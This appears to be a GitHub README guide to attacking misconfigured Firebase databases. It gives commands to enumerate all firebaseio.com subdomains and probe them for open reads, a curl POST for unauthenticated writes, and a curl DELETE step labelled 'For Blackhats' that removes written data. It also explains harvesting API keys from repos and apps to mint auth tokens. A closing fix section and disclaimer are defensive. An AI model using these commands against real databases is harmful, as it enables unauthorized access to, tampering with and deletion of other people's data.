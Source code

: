 # 🔥 Firebase Hacking & PoC Testing

## 🚀 Introduction

Firebase is a cloud-based platform that provides backend services such as databases, authentication, and storage for web and mobile applications. However, misconfigured Firebase databases can lead to serious security vulnerabilities, allowing unauthorized users to read and write data. This guide will walk you through the process of identifying and testing Firebase vulnerabilities step by step.

---

## 🕵️‍♂️ Step 1: Finding Firebase Subdomains

First, find subdomains associated with Firebase under `*.firebaseio.com`. You can use tools like:

- Subfinder
- Amass
- Assetfinder
- FOFA, Shodan, ZoomEye (search engines)

Example FOFA, Shodan, ZoomEye queries :

```
FOFA Query: "domain=firebaseio.com"
Shodan Query: "http.title:Firebase"
ZoomEye Query: "site:firebaseio.com"
```

### 🛠 Step 2: Testing if Firebase is Accessible Automated Command to Find Live and Accessible Firebase Subdomains

```bash
subfinder -d firebaseio.com -t 50 | awk '{print $0"/.json"}' | httpx -status-code -mc 200
```

or directly to check one

```bash
echo https://<subdomain>.firebaseio.com | awk '{print $0"/.json"}' | httpx -status-code -mc 200
```

This command will:
1. Find Firebase subdomains using `subfinder`.
2. Filter only live subdomains responding with HTTP `200` using `httpx`.
3. Check if the Firebase database is accessible by sending a `GET` request to `/.json`.
4. Print only the domains that return `200 OK`.

---

## ✍️ Step 3: Testing for Unauthenticated Write Access

Try sending a write request to check if the Firebase database allows unauthenticated write access:

```bash
curl -X POST https://<subdomain>.firebaseio.com/.json -d '{"test":"subhashis_exploit_poc"}' -H "Content-Type: application/json"
```

If the request is successful and data is written and return {"name":"-OKELb6ZxxxxDEiDm7W"} , the Firebase database is vulnerable to **unauthenticated write access**.

## ✍️ Step 3+: How remove the poc For Blackhats 🎩

```bash
curl -X DELETE https://<subdomain>.firebaseio.com/-OKELb6ZxxxxDEiDm7W.json
```

If the request is successful and response is "null" , the Firebase database is deleted.

---

## 🔑 Step 4: Finding Firebase API Keys

Another method to test Firebase security is by searching for Firebase API keys. You can look for keys in:

- Public GitHub repositories (`AIzaSy` pattern)
- JavaScript files of web applications
- Mobile application decompilation

Example Firebase API key: `AIzaSyDluKZPdsuwxICZvjKi43I7KLLgAHGtxxx`

### 🔍 Testing API Key for Authentication

Use a token generator like [subhashis360.github.io/idtokengenarate](https://subhashis360.github.io/FirebaseHacking/):

1. Paste the API key.
2. Click **Sign Up**.
3. If you receive a valid token, the API key is vulnerable.

---

## 🔒 How to Fix It

### ✅ Secure Firebase Database:

1. Open Firebase Console.
2. Navigate to **Database > Rules**.
3. Update the rules to restrict access only to authenticated users:

```json
{
  "rules": {
    ".read": "auth != null",
    ".write": "auth != null"
  }
}
```

### 🔍 Audit Subdomains:

- Ensure no publicly accessible Firebase databases exist.
- Check for outdated or unused Firebase projects.

### 📊 Monitor Activity Logs:

- Use Firebase’s built-in logging to monitor access and detect unusual activity.
- Enable **Cloud Logging** and **Cloud Monitoring** to track API requests.

---

## 🛑 Disclaimer

This guide is for **educational purposes only**. Unauthorized access to Firebase databases without permission is illegal and may result in severe consequences. Always obtain proper authorization before performing security tests.

---

## 🤝 Conclusion

Misconfigured Firebase databases pose serious security risks. By following the steps above, you can identify vulnerabilities and take corrective actions to secure Firebase applications. Happy hacking responsibly! 🛡
